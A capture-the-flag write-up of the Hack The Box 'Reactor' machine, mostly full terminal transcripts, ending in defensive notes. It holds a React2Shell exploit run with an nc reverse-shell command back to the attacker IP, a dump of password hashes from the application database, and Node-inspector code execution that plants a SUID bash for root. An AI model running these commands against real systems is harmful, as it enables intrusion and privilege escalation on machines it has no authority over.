



# Reactor


!!! note "Replaceable banner"
    Replace `images/banner.png` in this box folder with the final Reactor artwork. The page already points to that filename.

| Field | Value |
| --- | --- |
| Status | Completed — May 26, 2026 |
| Difficulty | Easy; assessed as Medium by the author |
| Focus | Linux, Node.js, web exploitation |
| Machine | [Reactor on Hack The Box](https://app.hackthebox.com/machines/Reactor?sort_by=created_at&sort_type=desc) |

## Attack path

1. Scan the host and identify SSH and the Next.js service on port 3000.
2. Exploit the React2Shell vulnerability to obtain a shell as `node`.
3. Read the application SQLite database and use the recovered engineer credentials over SSH.
4. Discover a privileged Node process with the inspector bound to `127.0.0.1:9229`.
5. Connect to the inspector, execute JavaScript in the privileged process and create a SUID Bash copy.

## 1. Reconnaissance

The completed scan found SSH and the web application:

```powershell
                                                                                                                                                                 
┌──(exp10i73r㉿kali)-[~]
└─$ nmap -p- --min-rate 1000 -T4 -Pn -sV -oA nmap/nmap_full_scan 10.129.105.175 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-13 17:41 +0530
Warning: 10.129.105.175 giving up on port because retransmission cap hit (6).
Stats: 0:05:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 75.00% done; ETC: 17:46 (0:00:01 remaining)
Nmap scan report for 10.129.105.175
Host is up (0.44s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.99%I=7%D=6/13%Time=6A2D49E9%P=aarch64-unknown-linux-gn
SF:u%r(GetRequest,247A,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Ro
SF:uter-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefet
SF:ch,\x20Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:
SF:\x201\r\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.j
SF:s\r\nCache-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd
SF:8t\"\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x2017175\r\nDate:\x20Sat,\x2013\x20Jun\x202026\x2012:20:42\x20GMT\r\nC
SF:onnection:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head
SF:><meta\x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"wi
SF:dth=device-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20
SF:href=\"/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"n
SF:ext\"/><link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low
SF:\"\x20href=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><scri
SF:pt\x20src=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20asy
SF:nc=\"\"></script><script\x20src=\"/_next/static/chunks/517-d083b552e04d
SF:ead1\.js\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTT
SF:POptions,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Ne
SF:xt-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-P
SF:refetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private
SF:,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x
SF:20Sat,\x2013\x20Jun\x202026\x2012:20:50\x20GMT\r\nConnection:\x20close\
SF:r\n\r\n")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary
SF::\x20RSC,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-R
SF:outer-Segment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Cont
SF:rol:\x20private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revali
SF:date\r\nDate:\x20Sat,\x2013\x20Jun\x202026\x2012:20:53\x20GMT\r\nConnec
SF:tion:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 337.44 seconds
                                                              
```

| Port | Service | Observation |
| ---: | --- | --- |
| 22/tcp | SSH | Used later for the `engineer` account. |
| 3000/tcp | Next.js | React/Next.js application and the initial attack surface. |

The first two screenshots show the web reconnaissance sequence.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 1.</strong> Initial reconnaissance of the Reactor application.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 2.</strong> The second reconnaissance view from the completed session.</figcaption>
</figure>

## 2. Exploit React2Shell

The source notes use a React2Shell proof of concept for CVE-2025-55182. The complete exploit, callback and shell-stabilization transcript is preserved below.

```bash
┌──(exp10i73r㉿kali)-[~/CVE/React2Shell-CVE-2025-55182-PoC-Reverse-Shell]
└─$ python3 react2shell.py -u http://10.129.105.175:3000/ -l 10.10.16.28 -p 4444

==================================================================
|     React2Shell - (CVE-2025–55182) |                                                                                                                               
|           By Hasa                                |                                                                                                                 
==================================================================                                                                                                   

[*] Target URL (-u): http://10.129.105.175:3000/
[*] Local IP (-l): 10.10.16.28
[*] Port (-p): 4444
[*] Command: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.28 4444 >/tmp/f
[*] Sending payload...

┌──(exp10i73r㉿kali)-[~]
└─$ nc -lvnp 4444                                                              
listening on [any] 4444 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.105.175] 58484
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
node@reactor:/opt/reactor-app$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                     
┌──(exp10i73r㉿kali)-[~]
└─$ stty raw -echo; fg  
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm
node@reactor:/opt/reactor-app$ 

```

## 3. Recover the engineer account

The application directory contains `reactor.db`. The complete database transcript from the source note is preserved below.

```bash
node@reactor:/opt/reactor-app$ ls
app  next.config.js  node_modules  package.json  package-lock.json  reactor.db
node@reactor:/opt/reactor-app$ sqlite3 reactor.db 
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
sensor_logs  users      
sqlite> select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
sqlite> select * from sensor_logs;
1|2025-12-28 14:32:01|CORE_TEMP_01|324.5|NOMINAL
2|2025-12-28 14:32:01|PRESSURE_01|155.2|NOMINAL
3|2025-12-28 14:32:01|COOLANT_FLOW|18.4|CAUTION
sqlite> 
```

<figure class="htb-figure">
  
  <figcaption><strong>Figure 3.</strong> The supplied credential-recovery screenshot used in the completed Reactor route.</figcaption>
</figure>

The recovered engineer credentials allow SSH access. The complete SSH login and user-session transcript follows; the user flag value is redacted.

```bash
┌──(exp10i73r㉿kali)-[~]
└─$ ssh engineer@10.129.105.175
The authenticity of host '10.129.105.175 (10.129.105.175)' can't be established.
ED25519 key fingerprint is: SHA256:9v9mCPC4gn2EN/IbKKwhV8KZoNVTsVPorFhlTkNByPM
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.105.175' (ED25519) to the list of known hosts.
engineer@10.129.105.175's password: 
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Sat Jun 13 12:33:54 2026 from 10.10.16.28
engineer@reactor:~$ ls
user.txt
engineer@reactor:~$ cat user.txt 
<USER_FLAG_REDACTED>

```

## 4. Find the Node inspector

From the engineer shell, inspect listening sockets and identify the local Node inspector on port `9229`. The complete inspector, SUID creation and root-session transcript from the source note is preserved in the next section.


## 5. Execute JavaScript through the inspector

Connect to the local inspector. It evaluates JavaScript in the context of the process that owns it. The complete inspector exploitation transcript follows; the root flag value is redacted.

```bash
engineer@reactor:/opt/uptime-monitor$ ss -tunlp
Netid           State            Recv-Q           Send-Q                      Local Address:Port                       Peer Address:Port           Process           
udp             UNCONN           0                0                              127.0.0.54:53                              0.0.0.0:*                                
udp             UNCONN           0                0                           127.0.0.53%lo:53                              0.0.0.0:*                                
udp             UNCONN           0                0                                 0.0.0.0:68                              0.0.0.0:*                                
tcp             LISTEN           0                4096                              0.0.0.0:22                              0.0.0.0:*                                
tcp             LISTEN           0                4096                           127.0.0.54:53                              0.0.0.0:*                                
tcp             LISTEN           0                4096                        127.0.0.53%lo:53                              0.0.0.0:*                                
tcp             LISTEN           0                511                             127.0.0.1:9229                            0.0.0.0:*                                
tcp             LISTEN           0                4096                                 [::]:22                                 [::]:*                                
tcp             LISTEN           79               511                                     *:3000                                  *:*                                
engineer@reactor:/opt/uptime-monitor$ which node
/usr/bin/node
engineer@reactor:/opt/uptime-monitor$ /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
Starting inspector on 127.0.0.1:9229 failed: address already in use
uptime-monitor up, pid=46289
node:fs:2380
    return binding.writeFileUtf8(
                   ^

Error: EACCES: permission denied, open '/var/log/uptime-monitor.csv'
    at Object.writeFileSync (node:fs:2380:20)
    at Object.appendFileSync (node:fs:2461:6)
    at record (/opt/uptime-monitor/worker.js:25:8)
    at ClientRequest.<anonymous> (/opt/uptime-monitor/worker.js:64:9)
    at ClientRequest.emit (node:events:524:28)
    at Socket.emitRequestTimeout (node:_http_client:849:9)
    at Object.onceWrapper (node:events:638:28)
    at Socket.emit (node:events:536:35)
    at Socket._onTimeout (node:net:595:8)
    at listOnTimeout (node:internal/timers:581:17) {
  errno: -13,
  code: 'EACCES',
  syscall: 'open',
  path: '/var/log/uptime-monitor.csv'
}

Node.js v20.20.2
engineer@reactor:/opt/uptime-monitor$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug> exec("process.mainModule.require('child_process').execSync('cp /bin/bash /tmp/r00t && chmod +s /tmp/r00t')")
Uint8Array(0)
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
debug> 
engineer@reactor:/opt/uptime-monitor$ ls
worker.js
engineer@reactor:/opt/uptime-monitor$ cd /tmp
engineer@reactor:/tmp$ ls -la
total 2516
drwxrwxrwt 15 root     root        4096 Jun 13 13:08 .
drwxr-xr-x 23 root     root        4096 May 20 10:07 ..
prw-r--r--  1 node     node           0 Jun 13 12:41 f
drwxrwxrwt  2 root     root        4096 Jun 13 12:14 .font-unix
drwxrwxrwt  2 root     root        4096 Jun 13 12:14 .ICE-unix
-rwxrwxr-x  1 engineer engineer 1063041 Jun 13 12:36 linpeas.sh
-rwsr-sr-x  1 root     root     1446024 Jun 13 13:04 r00t
drwx------  2 root     root        4096 Jun 13 12:14 snap-private-tmp
drwx------  3 root     root        4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-ModemManager.service-dEUS9g
drwx------  3 root     root        4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-polkit.service-5e90kw
drwx------  3 root     root        4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-systemd-logind.service-2ruBmC
drwx------  3 root     root        4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-systemd-resolved.service-j635Nk
drwx------  3 root     root        4096 Jun 13 12:14 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-systemd-timesyncd.service-wJsVMs
drwx------  3 root     root        4096 Jun 13 12:27 systemd-private-ac453a6643d24ee3a2c9f3fd51063d36-upower.service-bWjFNa
drwx------  2 engineer engineer    4096 Jun 13 12:55 tmux-1000
drwx------  2 root     root        4096 Jun 13 12:15 vmware-root_723-4282236435
drwxrwxrwt  2 root     root        4096 Jun 13 12:14 .X11-unix
drwxrwxrwt  2 root     root        4096 Jun 13 12:14 .XIM-unix
engineer@reactor:/tmp$ /tmp/root -p
-bash: /tmp/root: No such file or directory
engineer@reactor:/tmp$ /tmp/r00t -p
r00t-5.2# cat /root/root.txt
<ROOT_FLAG_REDACTED>
r00t-5.2# 
```

## Why the escalation works

A Node inspector is a full debugging interface, not a read-only status endpoint. Any local user who can connect to it can evaluate JavaScript in the target process. Binding the inspector to `127.0.0.1` limits network exposure but does not protect against another local account.

### Defensive notes

- Do not run `node --inspect` or `--inspect-brk` for privileged production services.
- Run debug interfaces as an unprivileged account and isolate them with namespaces or a local firewall.
- Monitor for unexpected SUID binaries in writable directories such as `/tmp`.
